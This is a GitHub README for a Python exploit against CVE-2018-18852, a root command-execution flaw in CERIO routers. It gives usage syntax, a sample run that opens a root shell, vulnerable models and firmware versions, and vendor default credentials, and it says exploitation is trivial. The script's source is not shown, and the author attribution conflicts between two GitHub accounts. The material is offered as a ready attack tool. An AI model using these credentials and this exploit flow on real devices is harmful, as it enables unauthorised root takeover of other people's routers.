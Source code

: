 # CERIO router Authenticated RCE (backdoor vendor creds) CVE-2018-18852 Python PoC
hook-s3c (github.com/andripwn), @andripwn on twitter

Working Python PoC for CVE-2018-18852, originally appearing on;
https://github.com/andripwn/CVE-2018-18852

## What's up

CERIO Router models and variants of, DT300N, DT100G, AMR-3204, WMR-200N are 
vulnerable to an authenticated web-based RCE as root user.

Exists as an 0day undisclosed advisory;
https://www.fortiguard.com/zeroday/FG-VD-18-149

Vendor default credentials are usually present, so execution is trivial.

Architecture is MIPS. 


### Usage and example

```
Usage: exploit.py <ipaddress> <port> <creds>
```

```bash

$ python ./exploit.py 127.0.0.1 8080 admin:admin

[*] ================================================
[*] CERIO RCE CVE-2018-18852, confirmed on;
[*] - CERIO DT-300N-NGS-M - fw: Pme-CPE-AP12X V1.0.3
[*] - CERIO DT-300N       - fw: Cen-CPE-N2H10A V1.0.14, Cen-CPE-N2H10A V1.1.6, Cen-CPE-N2H10A V1.1.7
[*] - CERIO DT-100G-N     - fw: Cen-AP-N2H10A V1.0.8
[*] - CERIO DT-100G       - fw: Cen-WR-G2H5 V1.0.7
[*] - CERIO DT-100GX-N    - fw: Cen-AP-N2H8A V1.0.18
[*] - CERIO AMR-3204G     - fw: Cen-AC V2.0.19
[*] - CERIO WMR-200N      - fw: Cen-HS-N2H1 V1.0.6c Test
[*]
[/] by hook (@hook_s3c) https://github.com/hook-s3c/CVE-2018-18852
[/] Greetz to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, 
[/] The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
[/] Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up
[*] ================================================

root@cerio:~# id
[!] This may not be the right model (DT-300N-NGS-M), trying again
[+] Sucessfully grabbed pid token: 1312


uid=0(root) gid=0(root)

root@cerio:~# 

```

### Default cred combos;

- operator:1234
- admin:admin
- root:default

## Greetz

Shoutout to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up

HTP!!!! YEET
